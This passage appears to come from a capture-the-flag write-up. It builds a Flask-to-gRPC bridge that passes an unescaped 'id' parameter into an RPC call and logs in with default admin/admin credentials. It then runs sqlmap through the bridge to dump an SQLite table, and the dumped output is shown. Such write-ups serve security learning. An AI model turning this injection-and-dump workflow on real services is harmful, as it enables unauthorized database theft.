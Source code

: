 ```python
  return callRpc("getInfo", '{"id": "' + id + '"}' )



def callRpc_service_LoginUser( username, password ):
  return callRpc("LoginUser", json.dumps({"username":username,"password":password}) )

  

def callRpc_service_RegisterUser( username, password ):
  return callRpc("RegisterUser", json.dumps({"username":username,"password":password} ) )
  


#print("[ ] Init: Register User")
#callRpc_service_RegisterUser("admin1","password1")

print("[ ] Init: Login User")
#callRpc_service_LoginUser("admin1","password1")

callRpc_service_LoginUser("admin","admin")

print("[ ] Start Service")

app = Flask(__name__)

@app.route("/")
def call_rpc():
  #print( )
  return callRpc_service_getInfo( request.args.get('id') )
  # return "Hello, World!"
```

Execute this bridge with :

```shell
flask --app grpc-bridge run
```

This bridge is available on local port 5000, so we can use sqlmap :

```shell
sqlmap --dbms=SQLite -p id -u "http://127.0.0.1:5000?id=692" --dump --batch   
```

We have some dumped datas :

```text
Database: <current>
Table: messages
[1 entry]
+-----+-------------------+----------+
| id  | message           | username |
+-----+-------------------+----------+
| 405 | Will update soon. | admin    |
+-----+-------------------+----------+
```

